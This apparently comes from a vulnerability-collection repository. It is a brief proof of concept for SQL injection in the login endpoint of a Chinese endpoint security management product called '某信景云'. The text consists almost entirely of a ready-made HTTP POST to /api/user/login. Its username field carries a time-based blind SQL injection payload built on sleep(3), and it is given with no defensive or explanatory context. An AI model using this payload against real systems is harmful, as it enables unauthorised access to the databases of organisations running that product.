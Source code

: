 ## 某信景云终端安全管理系统 login SQL注入漏洞 
```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```
